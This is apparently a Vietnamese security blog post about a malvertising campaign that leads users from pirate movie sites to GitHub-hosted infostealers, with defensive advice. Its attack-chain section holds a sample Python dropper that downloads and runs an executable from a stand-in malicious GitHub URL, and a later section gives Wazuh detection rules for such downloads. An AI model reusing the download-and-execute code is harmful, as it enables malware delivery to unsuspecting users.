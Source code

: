 ```yaml
---
title: "Cảnh báo nguy hiểm: Mối đe dọa mạng từ Malvertising GitHub"
date: 2025-09-13T18:02:53.347+07:00
draft: false
tags: ["an ninh mạng", "malvertising", "GitHub", "phần mềm độc hại", "infostealer"]
categories: ["An ninh mạng"]
---
```


## Table of Contents
- [Mở đầu](#mở-đầu)
- [Nội dung chính](#nội-dung-chính)
- [Kết luận](#kết-luận)

---

### Mở đầu

![Hình ảnh minh họa chuỗi tấn công Malvertising GitHub](content/posts/static/images/2025/2025-09-13T18:09:09.960+07:00.jpg)

Malvertising, hay quảng cáo độc hại, đã trở thành một trong những phương thức tấn công mạng phổ biến và tinh vi nhất hiện nay. Mới đây, một chiến dịch malvertising quy mô lớn đã bị phát hiện lợi dụng nền tảng GitHub để phân phối phần mềm đánh cắp thông tin (infostealer), gây ra mối đe dọa nghiêm trọng cho hàng triệu thiết bị trên toàn cầu [Nguồn: Microsoft Security Blog]. Bài báo cáo này sẽ đi sâu phân tích cơ chế hoạt động của chiến dịch tấn công này, lý do GitHub bị lợi dụng và đưa ra các khuyến nghị bảo mật nhằm giảm thiểu rủi ro.

Malvertising là việc sử dụng quảng cáo trực tuyến để phát tán phần mềm độc hại. Thay vì hiển thị quảng cáo hợp pháp, tội phạm mạng chèn mã độc vào các banner hoặc pop-up, chuyển hướng người dùng đến các trang web độc hại hoặc tự động tải xuống mã độc. GitHub, một nền tảng lưu trữ mã nguồn phổ biến, đã vô tình trở thành "bãi đáp" cho các phần mềm độc hại này do tính chất mở và đáng tin cậy của nó, gây khó khăn cho các hệ thống bảo mật truyền thống.

### Nội dung chính

#### Cơ chế tấn công Malvertising trên GitHub

Chiến dịch malvertising này hoạt động theo một chuỗi tấn công đa giai đoạn, tinh vi và phức tạp:

1.  **Giai đoạn Khởi nguồn (Initial Access):**
    *   Tấn công bắt đầu từ các trang web có nội dung không chính thống, đặc biệt là các trang xem phim lậu.
    *   Quảng cáo độc hại (malvertising) được nhúng vào các khung phim hoặc banner trên các trang này.
    *   Khi người dùng vô tình nhấp vào quảng cáo, họ sẽ bị chuyển hướng qua một loạt các trang trung gian [Nguồn: Blackswan Cybersecurity].

2.  **Chuyển hướng đến GitHub (Redirection to GitHub):**
    *   Sau nhiều bước chuyển hướng, nạn nhân cuối cùng sẽ được đưa đến một kho lưu trữ (repository) trên GitHub.
    *   Các kho lưu trữ này được tội phạm mạng tạo ra để lưu trữ các tệp độc hại, thường được ngụy trang dưới dạng các ứng dụng hợp pháp hoặc mã nguồn mở [Nguồn: DarkReading].

3.  **Phân phối Payload (Payload Delivery):**
    *   **Payload đầu tiên (First-stage Payload):** Tệp độc hại đầu tiên được tải xuống từ GitHub thường đóng vai trò là một "dropper" hoặc "downloader". Nó được thiết kế để tải về các phần mềm độc hại tiếp theo.
    *   **Ví dụ về code block của dropper:**
        
```python
        # downloader.py - Python script to download second-stage payload
        import requests
        import subprocess

        payload_url = "https://raw.githubusercontent.com/malicious_user/repo/main/second_stage.exe"
        local_filename = "second_stage.exe"

        try:
            response = requests.get(payload_url, stream=True)
            response.raise_for_status()
            with open(local_filename, 'wb') as f:
                for chunk in response.iter_content(chunk_size=8192):
                    f.write(chunk)
            print(f"Downloaded {local_filename}")
            subprocess.Popen([local_filename]) # Execute the downloaded payload
        except Exception as e:
            print(f"Error downloading or executing payload: {e}")
        ```

    *   **Payload thứ hai (Second-stage Payload):** Thực hiện thu thập thông tin hệ thống ban đầu, mã hóa dữ liệu nhạy cảm (ví dụ: bằng Base64) và gửi về máy chủ điều khiển (C2) của kẻ tấn công qua HTTP [Nguồn: Microsoft Security Blog].
    *   **Payload tiếp theo (Third-stage Payload):** Sau khi thông tin ban đầu được thu thập, các mã độc nguy hiểm hơn như Lumma Stealer hoặc Doenerium Stealer sẽ được triển khai. Các phần mềm này có khả năng đánh cắp thông tin đăng nhập, dữ liệu tài chính, ví điện tử và các thông tin nhạy cảm khác [Nguồn: SC Media].

#### Tại sao GitHub bị lạm dụng hiệu quả?

GitHub, với vai trò là nền tảng lưu trữ mã nguồn lớn nhất thế giới, trở thành mục tiêu hấp dẫn cho tội phạm mạng vì nhiều lý do:

*   **Đáng tin cậy và Phổ biến:** GitHub là một nền tảng uy tín và được sử dụng rộng rãi bởi các nhà phát triển và tổ chức. Nhiều công ty IT thường cho phép truy cập GitHub trong môi trường làm việc, khiến việc phát hiện lưu lượng truy cập độc hại trở nên khó khăn hơn. Kẻ tấn công lợi dụng chiến thuật "Living Off Trusted Sites" (LOTS) để ẩn mình [Nguồn: VietnamNet].
*   **Dễ dàng ngụy trang:** Các tệp độc hại có thể được lưu trữ dưới dạng mã nguồn, kịch bản (script) hoặc các công cụ hợp pháp, khiến việc phân biệt giữa mã nguồn tốt và xấu trở nên thách thức đối với các giải pháp bảo mật tự động [Nguồn: ESSVN].
*   **Thiếu giải pháp phát hiện triệt để:** Mặc dù GitHub có các cơ chế bảo mật, nhưng việc phát hiện và ngăn chặn triệt để các hành vi lạm dụng tinh vi như vậy vẫn còn là một thách thức lớn. Kẻ tấn công liên tục thay đổi phương thức để tránh bị phát hiện [Nguồn: An Toàn Thông Tin].

#### Hướng dẫn phòng tránh và bảo vệ

Để bảo vệ bản thân và tổ chức khỏi các mối đe dọa malvertising trên GitHub, cần áp dụng các biện pháp phòng ngừa sau:

1.  **Cẩn trọng với nguồn gốc truy cập:**
    *   Tránh truy cập các trang web không chính thống, đặc biệt là các trang web cung cấp nội dung "miễn phí" như phim lậu, phần mềm crack.
    *   Luôn kiểm tra URL và chứng chỉ bảo mật (HTTPS) của trang web trước khi tương tác.

2.  **Kiểm soát truy cập Internet:**
    *   Trong môi trường doanh nghiệp, cần thiết lập các chính sách kiểm soát truy cập Internet nghiêm ngặt.
    *   Giới hạn quyền truy cập vào các dịch vụ lưu trữ mã nguồn công cộng hoặc các repository không được xác minh.
    *   Sử dụng proxy hoặc tường lửa ứng dụng (WAF) để lọc và kiểm tra lưu lượng truy cập.

3.  **Tăng cường giám sát Endpoint và Network:**
    *   Triển khai các giải pháp EDR (Endpoint Detection and Response) và SIEM (Security Information and Event Management) để phát hiện hành vi bất thường.
    *   Giám sát các quy trình thực thi tệp lạ, đặc biệt là các tệp được tải xuống từ các domain GitHub.
    *   Thực hiện phân tích IoC (Indicators of Compromise) thường xuyên để phát hiện sớm các dấu hiệu tấn công.
    *   **Ví dụ cấu hình giám sát bằng Wazuh SIEM (Rule ví dụ):**
        
```yaml
        <group name="github_malware_detection,">
          <rule id="100001" level="12">
            <if_sid>60101</if_sid> <!-- Example: if a file download event occurs -->
            <field name="win.eventdata.targetFilename" type="pcre2">.*github\.com.*\.exe$</field>
            <description>Possible malware download from GitHub.</description>
            <mitre>
              <id>T1071.001</id>
              <id>T1566.001</id>
            </mitre>
          </rule>

          <rule id="100002" level="10">
            <if_sid>60101</if_sid>
            <field name="win.eventdata.processCommandline" type="pcre2">.*second_stage\.exe.*</field>
            <description>Execution of known second-stage payload from GitHub malvertising.</description>
            <mitre>
              <id>T1059.003</id>
            </mitre>
          </rule>
        </group>
        ```


4.  **Cập nhật phần mềm và giải pháp bảo mật:**
    *   Đảm bảo tất cả hệ điều hành, trình duyệt và phần mềm bảo mật (antivirus, firewall) luôn được cập nhật phiên bản mới nhất.
    *   Theo dõi các khuyến nghị và cảnh báo bảo mật từ các nhà cung cấp lớn như Microsoft, GitHub và các tổ chức an ninh mạng.

### Kết luận

Malvertising lợi dụng GitHub là một minh chứng cho sự phát triển không ngừng của các mối đe dọa mạng. Bằng cách tận dụng các nền tảng hợp pháp và đáng tin cậy, tội phạm mạng có thể dễ dàng ẩn mình và thực hiện các cuộc tấn công quy mô lớn. Việc hiểu rõ cơ chế tấn công, kết hợp với các biện pháp bảo mật chủ động và nâng cao nhận thức người dùng, là chìa khóa để bảo vệ cá nhân và tổ chức khỏi mối đe dọa tinh vi này. Các tổ chức cần đầu tư vào các giải pháp giám sát toàn diện và xây dựng quy trình ứng phó sự cố hiệu quả để đối phó kịp thời với các cuộc tấn công trong tương lai.

